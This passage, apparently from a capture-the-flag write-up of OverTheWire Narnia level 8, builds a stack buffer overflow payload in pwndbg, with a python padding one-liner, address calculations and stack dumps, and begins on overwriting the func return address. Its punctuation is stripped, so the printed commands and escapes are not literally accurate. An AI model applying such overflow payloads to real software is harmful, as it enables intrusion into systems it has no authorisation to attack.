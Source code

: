 A 20   ADDRESS TO LOCAL 8    A  6

When we passed 6 A s into the buffer  the address to local 8 was 0xfffd2f8  If we are to input 14 more A s followed by the address to local 8  which is four bytes  followed by another 6 A s  then the resulting address to local 8 would be 0xffffd2f8    14 4 6  

   highlight bash   
    hex 0xffffd2f8 24   
 0xffffd2e0 
   endhighlight   

Using this address  we can construct the payload as follows 

   highlight bash   
pwndbg  r   python  c  print  A  20  xe0xd2xffxff   A  6    
Starting program   home 0xd4y business other overthewire narnia 8 narnia8   python  c  print  A  20  xe0xd2xffxff   A  6    
AAAAAAAAAAAAAAAAAAAAAAAAAA  
                                           
Breakpoint 1  0x0804848d in func                                             
   endhighlight   

Now looking at the stack pointer  we see that we have successfully flooded memory past the local 8 address 

   highlight bash   
pwndbg  x 40x  esp  
0xffffd024      0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd034      0x41414141      0xffffd2e0      0x41414141      0x08044141  
0xffffd044      0xffffd2e0      0x00000000      0xf7ddfe46      0x00000002
   endhighlight   

Incidentally  the reason why we were only able to overwrite other areas of memory only after including the address of the buffer in the payload  is because of the for loop within the program  When the address to local 8 is overwritten  the for loop is false and data stops getting written to local 1c 

      Overwriting func Return Address

It is important to note that in the stack pointer  the return address of func is present shortly after the buffer 

   highlight bash   
pwndbg  x 40x  esp                                                                                                                                                           0xffffd034      0x41414141      0x41414141      0x41414141      0x41414141                                                                                                   0xffffd044      0x41414141      0xffffd2ea      0xffffd058      0x080484a7                                                                                                   0xffffd054      0xffffd2ea      0x00000000      0xf7ddfe46      0x00000002                                                                                                   0xffffd064      0xffffd104      0xffffd110      0xffffd094      0xffffd0a4                                                                                                   0xffffd074      0xf7ffdb40      0xf7fcb410      0xf7fa6000      0x00000001                                                                                                   0xffffd084      0x00000000      0xffffd0e8      0x00000000      0xf7ffd000                                                                                                   0xffffd094      0x00000000      0xf7fa6000      0xf7fa6000      0x00000000                                                                                                   0xffffd0a4      0xe752d891      0xa309e681      0x00000000      0x00000000           0xffffd0b4      0x00000000      0x00000002      0x08048320      0x00000000                                                                                                   0xffffd0c4      0xf7fe9740      0xf7fe4080      0xf7ffd000      0x00000002                                                                                                                                                                                                                                                                                                                                                                                       
   endhighlight   
